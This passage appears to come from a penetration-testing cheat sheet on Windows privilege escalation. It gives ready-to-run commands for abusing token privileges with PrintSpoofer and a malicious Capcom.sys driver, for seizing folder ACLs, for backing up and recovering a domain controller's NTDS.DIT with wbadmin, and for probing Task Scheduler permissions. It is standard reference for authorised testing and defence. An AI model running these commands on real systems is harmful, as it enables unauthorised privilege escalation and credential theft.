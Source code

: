   &#8594; mimikatz

- SeImpersonatePrivilege
  &#8594; PrintSpoofer

  ```bash
  PrintSpoofer.exe -i -c powershell
  ```

  How it works is explained in details [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- SeLoadDriverPrivilege: Load malicious driver [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit) using [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

  ```bash
  EOPLOADDRIVER.exe System\\CurrentControlSet\\MyService C:\\Users\\Username\\Desktop\\Driver.sys
  ```

- SeBackupPrivilege & SeRestorePrivilege:

  You can get yourself admin right of anyfolder

  ```powershell
  $user = "AD\Compromised User"
  $folder = "C:\InterestingFolder"
  $acl = Get-Acl $Folder
  $aclperms = $user,"FullControl","ContainerInherit,ObjectInherit","None","Allow"
  $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
  $acl.AddAccessRule($aclrule)
  Set-Acl -Path $Folder -AclObject $acl
  Get-Acl "C:\InterestingFolder" | fl
  ```

- SeRestorePrivilege: Modify a service that can be started by anyone and

Members of the "Backup Operators" can logon locally on a Domain Controller and backup the NTDS.DIT
For Instance:

```bash
wbadmin start backup -backuptarget:*e* -include:c:\windows\ntds
wbadmin get versions
wbadmin start recovery -version:*version* -recoverytarget:c:\temp\srvdc1 -notrestoreacl
```

or diskshadow: <https://youtu.be/ur2HPyuQlEU?t=1121>

For more information on those techniques:

- [T1003.002 - OS Credential Dumping: Security Account Manager](https://attack.mitre.org/techniques/T1003/002/)

#### Task Scheduler

##### Directory Access technique

We need to see if we have access to the folder where all the tasks are stored. If yes, we can leverage that.

```bash
# Note that it don't show "C:\Windows\System32\Tasks"
# So for instance a TaskPath with "Microsoft\XblGameSave" means "C:\Windows\System32\Tasks\Microsoft\XblGameSave"
schtasks /query /fo LIST 2>nul | findstr TaskName
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State


icacls C:\Windows\system32\Tasks
```
